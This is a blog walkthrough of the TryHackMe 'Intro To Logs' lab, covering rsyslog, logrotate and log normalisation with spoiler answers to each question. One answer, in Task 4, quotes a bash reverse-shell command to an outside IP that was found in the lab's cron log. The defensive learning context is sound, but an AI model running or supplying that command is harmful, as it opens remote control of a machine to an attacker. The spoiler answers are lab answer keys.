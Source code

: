 ```yaml
---
layout: post
title:  "TryHackMe: Intro To Logs"
date:   2023-11-11 00:00:00 +0900
categories: cybersec THM SOC2 Logging 'Blue team' 'Purple team'
---
```


##### Learn the fundamentals of logging, data sources, collection methods and principles to step into the log analysis world

---

<div> <img src="/images/logs.jpeg" alt="Computer tech cartoon" /> </div>

---

### Introduction

This is a guide to [tryhackme: Intro To Logs](https://tryhackme.com/room/introtologs). The room starts with some nice graphics and a brief outline of learning outcomes. It looks like there is a lot to do, so let's get stuck in!  

---

### Task 2 - Perspectives: Logs as Evidence of Historical Activity

I'm not going to give the same information as the room does as I think the copyright rightly belongs to THM.

Start the machine here and it should open in the split-screen view. If it doesn't find the blue button at the top right of the page and click to open in split screen view. I'm doing this on a 13" notebook so split screen is a bit too tiny. When I want to interact with the machine in browser or RDP I tend to maximise the browser window and separate it and then stick it on the next desktop and use ctrl+Windows+arrow(R/L) to switch between remote machine and local.

For this machine you actually don't really need a desktop so I just ssh in from my WSL linux install through the VPN. I will document my usual setup here soon. 

However you choose to connect the login credentials for damianhall are on this page.

**Q1:  What is the name of your colleague who left a note on the Desktop?**

*Check the note.*

```bash
cat Desktop/note.txt # (or open in the GUI) 
```

<details>

  <summary>Spoiler warning: Answer</summary>
  
  Perry

</details>

---

**Q2: What is  full path to the suggested log file for initial investigation?**

*Check the note!*

<details>

  <summary>Spoiler warning: Answer</summary>
  
  /var/log/gitlab/nginx/access.log

</details>

---

### Task 3 - Types, Formats, and Standards

There's a lot of good information here about log types and how they are structured. It's not easy to memorize this stuff without some practical applications. But I try to consider why each data point is necessary within each log and the structure becomes more intuitive. I haven't memorized it, but I'm confident that when I come across these types of logs in the wild then I will have a good chance at understanding them.

**Q1: Based on the list of log types in this task, what log type is used by the log file specified in the note from Task 2?**

*Task 2 was discussing an Nginx server which is a web server...*

<details>

  <summary>Spoiler warning: Answer</summary>

    Web Server Log 

</details>

---

**Q2: Based on the list of log formats in this task, what log format is used by the log file specified in the note from Task 2?**

*The materials clearly list what format the Nginx web server uses by default.*

<details>

  <summary>Spoiler warning: Answer</summary>
    
    combined

</details>

---

### Task 4 - Collection, Management, and Centralisation

A lot of information here and an important note about time synchronisation to ensure the timeline of the logs. This is not possible on the room's VM because it doesn't have an internet connection (and you don't have root access either unless you've found a way in).

Go through the exercises and configure rsyslog.

**Q1 After configuring rsyslog for sshd, what username repeatedly appears in the sshd logs at /var/log/websrv-02/rsyslog_sshd.log, indicating failed login attempts or brute forcing?**

*after you have done the exercises you should be able to view the log file - so run:*

```bash
cat /var/log/websrv-02/rsyslog_sshd.log 
```

*Look for the 'Disconnected from invalid user...'*

<details>

  <summary>Spoiler warning: Answer</summary>
    
  stansimon

</details>

---

**Q2 What is the IP address of SIEM-02 based on the rsyslog configuration file /etc/rsyslog.d/99-websrv-02-cron.conf, which is used to monitor cron messages?**

*Check the cron configuration*

```bash
 cat /etc/rsyslog.d/99-websrv-02-cron.conf
```

<details>

  <summary>Spoiler warning: Answer</summary>
    
  10.10.10.101

</details>

---

**Based on the generated logs in /var/log/websrv-02/rsyslog_cron.log, what command is being executed by the root user?**

*Look in the cron log grep for root and CMD*

```bash
cat /var/log/websrv-02/rsyslog_cron.log | grep -E 'root|CMD'
```

<details>

  <summary>Spoiler warning: Answer</summary>
    
  /bin/bash -c "/bin/bash -i >& /dev/tcp/34.253.159.159/9999 0>&1"

</details>

---

### Task 5 - Storage, Retention and Deletion

Read the info - main points are to have a storage, retention deletion and backup policy in place and to stick to it for many reasons including regulatory and legal but also to allow automation and reduce human error.

Follow the practical activity to automate log rotation.

**Q1: Based on the logrotate configuration /etc/logrotate.d/99-websrv-02_cron.conf, how many versions of old compressed log file copies will be kept?**

*Look in the cron configuration.*

```bash
cat /etc/logrotate.d/99-websrv-02_cron.conf
```

<details>

  <summary>Spoiler warning: Answer</summary>
    
    24

</details>

---

**Q2: Based on the logrotate configuration /etc/logrotate.d/99-websrv-02_cron.conf, what is the log rotation frequency?**

*See the output for the last question.*

<details>

  <summary>Spoiler warning: Answer</summary>
    
    hourly

</details>

---

### Task 6 - Hands-on Exercise: Log analysis process, tools, and techniques

Time to get our hands dirty. There's still quite a bit of new information on data sources, parsing, normalising and sorting log data along with classification, enrichment, correlation, visualisation and finally reporting.

The room then goes on to discuss log analysis techniques.  

The introduction to the practical exercise mentions some methods to parse logs from the command line. While I'm quite comfortable with cat, grep, sort and uniq. I haven't often used awk or sed and these look like super powerful tools that I have noted for further study.

To view the logs they introduce an open source log viewer that is available for download from github. This is already installed on the room's VM so you won't need to download it.

Follow the long, cumbersome url given in the grey box (not the link to the github page) to look at the raw logs in a browser either in the GUI through the browser, from an AttackBox instance, or your own machine connected through the VPN. I have WSL Linux connected to the vpn and have a Google Chrome instance running from the WSL to connect.

Each step is given to process each log file using the command line. First the nginx, then rsyslog_cron, then rsyslog_sshd and finally gitlab-rails/api_json. Logs are normalised using awk and sed - that is the time and date formats are made to match each other and columns are rearranged to allow consolidation. Finally the commands output to a consolidated log file.

The normalisation commands are a bit long and, in my opinion, messy. These should probably be written into a script and automated, but they get the job done just running them from the command line.

Then sort and uniq are used to, well...sort and remove duplicates from the log entries.

Again follow the url (not the link) in your browser (connected to the THM network) to view the consolidated log files. Open in a new tab because you'll want to access the unparsed data too.

**Upon accessing the log viewer URL for unparsed raw log files, what error does "/var/log/websrv-02/rsyslog_cron.log" show when selecting the different filters?**

*OK, this is the unparsed log file that we opened initially NOT the normalised and consolidated one. Hopefully you have it open. Follow the hint and click the dropdown next to the add filter.*

<details>

  <summary>Spoiler warning: Answer</summary>
    
    No date field

</details>

---

**What is the process of standardising parsed data into a more easily readable and query-able format?**

*This is what we did to the log file with all those awk sed and sort and uniq commands...*

<details>

  <summary>Spoiler warning: Answer</summary>
    
    normalisation

</details>

---

**What is the process of consolidating normalised logs to enhance the analysis of activities related to a specific IP address?**

*This one isn't initially obvious unless you've really understood the reading at the start of this chapter. When we consolidate multiple logs we are really adding value to our log files. When we add extra context to a log in the form of say, an IP address we are performing xxxxxxxxxx on the log.*

<details>

  <summary>Spoiler warning: Answer</summary>
    
    enrichment

</details>

---

### Conclusion

I learned *a lot* from this room. And it has already started me off exploring the powerful awk and sed programs.
